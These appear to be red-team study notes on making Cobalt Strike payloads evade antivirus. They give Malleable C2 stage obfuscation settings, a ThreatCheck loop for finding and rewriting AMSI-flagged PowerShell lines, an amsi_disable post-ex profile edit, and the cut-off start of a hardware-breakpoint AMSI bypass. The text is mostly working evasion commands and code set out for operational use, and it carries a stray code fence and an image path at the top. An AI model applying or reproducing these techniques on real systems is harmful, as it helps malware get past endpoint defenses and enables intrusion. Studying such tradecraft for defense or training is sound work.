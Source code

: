 ### Malleable C2

```c
stage {
        set userwx "false";
        set cleanup "true";
        set obfuscate "true";
        set module_x64 "xpsservices.dll";
}
```

### AMSI

> Change the lines that ThreatCheck report and save it. Repeat this process

just host your stageless PowerShell payload directly via Site Management > Host File

```bash
PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.ps1 -e amsi
```

```powershell
# Content
for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}
# Replace for
for ($i = 0; $i -lt $enc.Count; $i++) {
    $enc[$i] = $enc[$i] -bxor 35
}
```
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/resource> ./build.sh /mnt/c/Tools/cobaltstrike/resources
```

### AMSI Disabled

> amsi_disable only applies to powerpick, execute-assembly and psinject.  It does not apply to the powershell command.

```bash
attacker@ubuntu ~/cobaltstrike> vim c2-profiles/normal/webbug.profile
# edit
post-ex {
        set amsi_disable "true";
}
# Check
attacker@ubuntu ~/cobaltstrike> ./c2lint c2-profiles/normal/webbug.profile
```

### Manual AMSI Bypass



```powershell
$HWBP = @"
using System;
using System.Collections.Generic;
using System.Linq.Expressions;
using System.Linq;
using System.Runtime.CompilerServices;
using System.Net;
using System.Reflection;
using System.Runtime.InteropServices;

namespace HWBP
{
    public class Amsi
```